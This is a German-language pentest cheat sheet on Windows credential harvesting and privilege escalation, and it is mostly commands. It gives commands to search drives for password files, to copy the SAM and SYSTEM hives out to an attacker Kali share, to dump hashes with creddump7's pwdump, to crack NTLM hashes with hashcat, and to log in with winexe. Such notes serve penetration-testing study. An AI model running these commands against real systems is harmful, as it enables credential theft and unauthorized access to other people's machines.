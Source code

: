 ```bash
#Bevorzugt nicht aus Root Directory ausführen!
#Rekursiv nach Dateien vom current directory suchen, welche *pass* im Namen haben oder auf *.config* enden:
dir /s *pass* == *.config*
#Rekursiv nach Dateien vom current directory suchen, welche das Wort "password" beinhalten und mit .xml, .ini oder .txt enden
findstr /si password *.xml *.ini *.txt
```

Bei**Unattend.xml** Credentials könnte mittels winexe ein Login möglich sein.

```bash
winexe -U 'USER%PASS' --system //WinIP cmd.exe
```

#### SAM

Windows speichert Passwort Hashes im Security Account Manager (SAM). Der Hash Key kann in der Datei SYSTEM gefunden werden. Wenn diese Dateien ausgelesen werden können, ist eine Password Extraction möglich (Download auf Kali und Hashes decrypten).

Die Dateien befinden sich in:

```bash
#Gesperrt zur Laufzeit
C:\Windows\System32\config
#Mögliche Backup Locations
C:\Windows\Repair
C:\Windows\System32\config\RegBack
#Dateien auf Kali kopieren
copy C:\PathTo\SAM|SYSTEM \\KALI-IP\Share\
```

Normalerweise können Tools wie **samdump** oder **pwdump** für Hash Dumps genutzt werden. Allerdings ist Version auf Kali outdated für Windows 10, daher anderes Tool notwendig:

```bash
git clone https://github.com/Neohapsis/creddump7.git
#Supportet nur python2!
python2 pwdump.py /SYSTEM /SAM
```

![image-20200724150515625](https://user-images.githubusercontent.com/33549572/88439549-cf884d80-ce0b-11ea-862f-3437b55dfddd.png)

<u>NOTES:</u>

Erster Hash (aad3.....) ist deprecated LM Hash und ist ein leerer String.

Zweiter Hash ist NTLM Hash, wobei Hashes die mit 31d6c... beginnen entweder auf ein leeres Passwort oder einen deaktivierten Benutzer hinweisen.

Cracken kann z.B. mit Hashcat durchgeführt werden....

```bash
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

Einloggen wieder mit winexe möglich...
